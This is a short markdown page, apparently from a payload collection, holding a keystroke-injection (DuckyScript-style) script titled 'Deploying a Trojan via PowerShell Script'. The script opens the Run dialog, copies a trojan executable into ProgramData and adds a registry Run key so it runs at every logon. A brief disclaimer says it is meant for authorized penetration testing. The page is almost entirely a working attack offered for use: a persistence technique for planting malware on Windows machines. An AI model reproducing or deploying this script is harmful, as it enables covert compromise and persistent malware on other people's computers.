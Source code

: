 # Deploying a Trojan via PowerShell Script

Deploys a trojan executable and ensures it runs persistently by adding it to the registry.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "Copy-Item 'C:\\path\\to\\trojan.exe' -Destination 'C:\\ProgramData\\trojan.exe'; New-ItemProperty -Path 'HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run' -Name 'Trojan' -Value 'C:\\ProgramData\\trojan.exe' -PropertyType String -Force"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.